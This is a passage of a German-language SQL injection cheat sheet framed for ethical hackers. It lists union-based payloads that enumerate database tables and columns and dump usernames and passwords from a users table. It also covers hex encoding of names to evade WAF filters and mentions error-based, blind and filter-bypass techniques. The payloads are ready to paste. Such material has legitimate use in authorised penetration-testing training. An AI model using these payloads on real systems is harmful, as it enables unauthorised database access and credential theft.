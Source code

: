 3. **Tabellennamen der aktuellen Datenbank anzeigen:**
```sql
test' UNION SELECT NULL, NULL, group_concat(table_name), NULL FROM information_schema.tables WHERE table_schema=database() --
```

4. **Spaltennamen aus einer bestimmten Tabelle anzeigen (Klartextname):**
```sql
test' UNION SELECT 1,group_concat(column_name),3 FROM information_schema.columns WHERE table_name='users' --

test' UNION SELECT NULL, NULL, group_concat(column_name), NULL FROM information_schema.columns WHERE table_name='users' --
```

5. **Spaltennamen anzeigen mit Hex-Wert für Tabellenname (Bypass & Genauigkeit):**
```sql
test' UNION SELECT 1,2,3,4,group_concat(column_name),6 FROM information_schema.columns WHERE table_name=0x7573657273 --

test' UNION SELECT NULL, NULL, group_concat(username,0x3a3a,password), NULL FROM users --
```
- `users` in Hex: 0x7573657273
- **Tool für Umwandlung:** [Codebeautify – String to Hex](https://codebeautify.org/string-hex-converter)

6. **Nutzerdaten ausgeben (z.B. Username & Passwort):**
```sql
test' UNION SELECT 1,group_concat(username,0x3a3a,password),3 FROM users --
```

- **`group_concat():`** Fasst mehrere Zeilen zu einem einzigen String zusammen. Dies ist essentiell, da die Webanwendung oft nur die erste Ergebniszeile ausgibt.

- **Hex-Kodierung (0x...):** Die Hexadezimaldarstellung (z.B. `0x3a3a` für `::` als Trennzeichen) kann helfen, wenn Web Application Firewalls (WAFs) oder spezifisches Escaping Klartext-Strings wie `'::'` filtern würden.


<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Hinweise für Ethical Hacker

1. **Fehlerbasierte Abfrage:** Wenn eine Union-Based Injection nicht sofort funktioniert, kann eine Error-Based SQL Injection (z.B. durch `EXTRACTVALUE` oder `UPDATEXML`-Funktionen in MySQL) oft schneller die Datenbankversion und den aktuellen Benutzer verraten.

2. **Blinde Abfragen:** Wenn die Ergebnisse der `UNION SELECT` nicht direkt auf der Seite erscheinen (`Blind SQLi`), müssen Techniken wie Time-Based oder Boolean-Based Injections angewendet werden (z.B. mit `IF` und `SLEEP`).

3. **Filtrations-Bypässe:** Bei komplexen Filtern sollten zusätzliche Bypässe in Betracht gezogen werden: Groß-/Kleinschreibung, Kommentare (`/**/)`, URL-Kodierung oder String-Manipulationen (`CONCAT`).
